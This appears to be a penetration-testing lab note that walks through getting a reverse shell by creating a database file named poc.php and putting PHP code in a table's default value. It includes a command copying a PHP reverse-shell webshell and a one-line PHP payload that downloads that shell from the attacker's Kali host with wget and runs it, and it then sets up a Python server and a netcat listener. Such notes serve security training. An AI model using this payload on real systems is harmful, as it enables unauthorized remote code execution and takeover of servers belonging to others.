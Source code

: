 
Video Walkthrough
https://www.youtube.com/watch?v=mHsMCfg_KQw

#### reverse shell

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.txt
```

edit file to host and ip.

Create a new Database poc.php

![[Pasted image 20221108115012.png]]

![[Pasted image 20221108115033.png]]

Create a new table:

![[Pasted image 20220616154316.png]]

Paste the following php code in the "Default Value" textbox.
```bash - kali
<?php system("wget $KALI:80/Shelly.txt -O /tmp/Shelly.php; php /tmp/Shelly.php"); ?>
```

![[Pasted image 20221108115110.png]]

Below, we can see our table was created in `/usr/local/databases/poc.php`

![[Pasted image 20221115132603.png]]

Now we set up our python server.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

set up your netcat listener

![[rlwrap]]



